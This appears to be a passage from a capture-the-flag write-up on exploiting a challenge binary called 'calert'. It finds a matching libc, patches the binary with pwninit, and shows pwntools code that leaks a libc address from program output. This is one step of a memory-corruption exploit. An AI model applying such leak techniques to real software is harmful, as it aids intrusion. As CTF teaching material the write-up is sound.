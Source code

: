 ![matches-libc.png](images/matches-libc.png)

Let's try with the first libc `libc6-amd64_2.31-13_i386 `. Download that and patch with `pwninit` to continue:

![pwninit.png](images/pwninit.png)

So now we will use the file called `calert_patched` and load the libc to the script too:

```python
libc = ELF('./libc6-amd64_2.31-13_i386.so', checksec=False)
context.binary = exe = ELF('./calert_patched', checksec=False)
```

So let's run again with the patched file and leak the libc address as we've done as we leak exe address:

```python
libc_leak = u64(plaintext[0x8:0x10])
log.info("Libc leak: " + hex(libc_leak))
```

Run the script and we get the libc leak:

![libc-leak.png](images/libc-leak.png)
